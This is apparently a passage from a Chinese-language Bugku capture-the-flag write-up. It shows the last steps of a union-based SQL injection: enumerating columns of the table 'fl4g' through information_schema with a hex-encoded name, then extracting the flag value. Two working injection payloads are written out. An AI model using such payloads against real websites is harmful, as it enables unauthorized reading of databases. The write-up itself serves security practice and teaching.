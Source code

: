 得到表名：fl4g,sc

接下来就要爆字段了

```sql
id=-1' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name=0x666c3467#
```

得到字段skctf_flag

最后就是查询数据了，通过使用：

```sql
id=-1' union select 1,2,3,skctf_flag from fl4g#
```

得到 flag：BUGKU{Sql_INJECT0N_4813drd8hz4}
